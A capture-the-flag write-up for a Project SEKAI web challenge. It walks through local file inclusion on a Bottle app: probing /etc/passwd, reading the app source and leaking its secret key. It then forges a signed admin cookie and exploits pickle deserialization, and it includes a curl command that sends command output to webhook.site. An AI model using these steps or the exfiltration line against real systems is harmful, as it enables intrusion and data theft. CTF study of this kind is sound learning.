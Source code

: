 ## Skills involved: Local File Inclusion, enumeration and documentation reading, Insecure Object Deserialization

An old-wine-in-new-bottle challenge. While both local file inclusion and insecure object deserialization are basic web exploitation techniques, team Project SEKAI managed to create a plausible scenario for it.

## Solution:

Basic browsing will readily give you this URL, which strongly hints at Local File Inclusion. This is a vulnerability where files outside the application scope can be leaked.

![image](https://user-images.githubusercontent.com/114584910/193473934-677593fa-9418-4456-ad3d-d22ab8cb2033.png)

We can confirm it with a simple `/etc/passwd` payload:

![image](https://user-images.githubusercontent.com/114584910/193474129-03904dbf-d87b-4817-8777-e625f2fe8bb7.png)

Now we need to know what information we need to obtain, because we can't really read directory contents. We can look for web application source code since this is a usual *web* challenge - as compared to *box* techniques like looking for SSH creds or other unexposed services. ~I'm just not familiar with boxes~

We can either guess `/app/app.py` or use `/proc/self/cmdline` for the less guessy route (moved to Burp for better illustration):

![image](https://user-images.githubusercontent.com/114584910/193474449-b9b2e71c-da4f-4c8b-842d-ec8022455979.png)

Here is a list of interesting files from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal#interesting-linux-files)


Anyway, the app source can be acquired:

```py
from bottle import route, run, template, request, response, error
from config.secret import sekai
import os
import re


@route("/")
def home():
    return template("index")


@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile


@error(404)
def error404(error):
    return template("error")


@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=8080)
```

Now we need to determine the next step, a natural guess would be to become admin and use the new endpoint `/sign`. And since we have LFI, we can obtain the key at `/app/config/secret.py`. I'm good with this educated guess.
`sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"`

There are 2 ways to craft the cookie: by *reading the documentation/program source* or *running bottle locally*. Since we already have all we need, why not just run the server to save time?

```py
from bottle import route, run, response
sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"
@route('/')
def home():
    e = {"name":"admin"}
    response.set_cookie("name", e, secret=sekai)
    return ''

run(host='localhost', port=8080)
```
![image](https://user-images.githubusercontent.com/114584910/193475056-26677d5c-766a-448d-bb42-d9eea7554b7a.png)

Then I was stuck, *terribly* stuck. It didn't occur to me that the cookie has a base64 encoded python pickle until I read the documentation as hinted by the organisers. ~Or you can learn to recognize the pickle pattern~

![image](https://user-images.githubusercontent.com/114584910/193475166-c6f4d30b-ea2d-4ae9-b70a-289ed40c4147.png)

For people that have some prior experience to CTFs, it's at this moment they realize they've got a jackpot:

![image](https://user-images.githubusercontent.com/114584910/193475243-6643e736-6aa3-4824-9e8f-3c3b4cdb5389.png)

We now have to find a way to achieve enumeration (gotta `ls` to my liking) and find the flag. The imminent issue is that there are no static folders for us to copy anything to read, and we don't have write access in general.
Thankfully it's possible to use online services like [webhook.site] to capture any data. With some research the payload can be `curl -d \`... | base64 -w0\` https://webhook.site/...`:

Simple enumeration reveals the flag executable at `/flag`:

![image](https://user-images.githubusercontent.com/114584910/193475478-1918ddc4-8a8d-4ea2-aacf-cf39db0e1ff2.png)

The flag comes happily afterwards.

